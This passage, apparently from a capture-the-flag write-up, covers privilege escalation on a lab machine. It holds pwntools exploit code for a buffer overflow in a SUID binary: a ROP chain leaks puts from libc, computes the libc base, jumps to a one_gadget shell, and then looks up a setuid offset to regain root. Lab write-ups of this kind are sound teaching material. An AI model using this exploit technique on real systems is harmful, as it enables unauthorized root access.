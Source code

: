     stage_1 = junk + pop_rdi + puts_got + puts_plt + main
    garbage.sendline(stage_1)
    garbage.recvuntil("access denied.\n")
    leaked_puts = u64(garbage.recvline()[:-1].ljust(8, '\x00'))
    log.success("Leaked puts address: 0x%x" % leaked_puts)
    garbage.recvuntil("Enter access password: ")
    
    # offsets
    libc_puts    = 0x809c0  # readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep " puts@@GLIBC"
    libc_exec_sh = 0x4f322  # one_gadget gadget garbage
    libc_base   = leaked_puts - libc_puts
    
    stage_2 = junk + p64(libc_exec_sh + libc_base)
    garbage.sendline(stage_2)
    garbage.recvuntil("access denied.")
    garbage.interactive()
    

It works, but I am still margo:

    
    
    root@kali# python ./root_shell-lowpriv.py
    [+] Connecting to 10.10.10.139 on port 22: Done
    [*] margo@10.10.10.139:
        Distro    Ubuntu 18.04
        OS:       linux
        Arch:     amd64
        Version:  4.15.0
        ASLR:     Enabled
    [+] Starting remote process 'garbage' on 10.10.10.139: pid 1994
    [+] Leaked puts address: 0x7fbb9651b9c0
    [*] Switching to interactive mode
    
    $ $ id
    uid=1002(margo) gid=1002(margo) groups=1002(margo)
    

The program is dropping privilege. I can use setuid to get back to root.

### More Offsets

    
    
    root@kali:/opt/libc-database# readelf -s libs/libc6_2.27-3ubuntu1_amd64/libc.so.6 | grep " setuid@@GLIBC"
        23: 00000000000e5970   144 FUNC    WEAK   DEFAULT   13 setuid@@GLIBC_2.2.5
    

I’ll add this to my rop.

### root Shell

Now I have a script that gives me a root shell:

    
    
    #!/usr/bin/env python
    